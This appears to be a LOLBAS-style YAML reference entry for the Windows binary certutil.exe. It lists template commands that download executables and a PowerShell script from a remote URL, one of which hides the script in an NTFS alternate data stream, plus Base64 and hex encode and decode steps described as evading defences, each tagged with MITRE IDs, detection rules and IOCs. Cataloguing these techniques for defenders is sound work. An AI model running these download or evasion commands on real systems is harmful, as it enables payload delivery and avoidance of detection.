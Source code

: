 ```yaml
---
Name: Certutil.exe
Description: Windows binary used for handling certificates
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: certutil.exe -urlcache -split -f {REMOTEURL:.exe} {PATH:.exe}
    Description: Download and save executable to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil.exe -verifyctl -f -split {REMOTEURL:.exe} {PATH:.exe}
    Description: Download and save executable to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil.exe -urlcache -split -f {REMOTEURL:.ps1} {PATH_ABSOLUTE}:ttt
    Description: Download and save a PS1 file to an Alternate Data Stream (ADS).
    Usecase: Download file from Internet and save it in an NTFS Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil -encode {PATH} {PATH:.base64}
    Description: Command to encode a file using Base64
    Usecase: Encode files to evade defensive measures
    Category: Encode
    Privileges: User
    MitreID: T1027.013
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil -decode {PATH:.base64} {PATH}
    Description: Command to decode a Base64 encoded file.
    Usecase: Decode files to evade defensive measures
    Category: Decode
    Privileges: User
    MitreID: T1140
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil -decodehex {PATH:.hex} {PATH}
    Description: Command to decode a hexadecimal-encoded file.
    Usecase: Decode files to evade defensive measures
    Category: Decode
    Privileges: User
    MitreID: T1140
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\certutil.exe
  - Path: C:\Windows\SysWOW64\certutil.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_download.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_encode.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_decode.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/4a11ef9514938e7a7e32cf5f379e975cebf5aed3/rules/windows/defense_evasion_suspicious_certutil_commands.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/command_and_control_certutil_network_connection.toml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_urlcache_and_split_arguments.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_verifyctl_and_split_arguments.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_with_decode_argument.yml
  - IOC: Certutil.exe creating new files on disk
  - IOC: Useragent Microsoft-CryptoAPI/10.0
  - IOC: Useragent CertUtil URL Agent
Resources:
  - Link: https://twitter.com/Moriarty_Meng/status/984380793383370752
  - Link: https://twitter.com/mattifestation/status/620107926288515072
  - Link: https://twitter.com/egre55/status/1087685529016193025
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Moriarty
    Handle: '@Moriarty_Meng'
  - Person: egre55
    Handle: '@egre55'
  - Person: Lior Adar
---
```

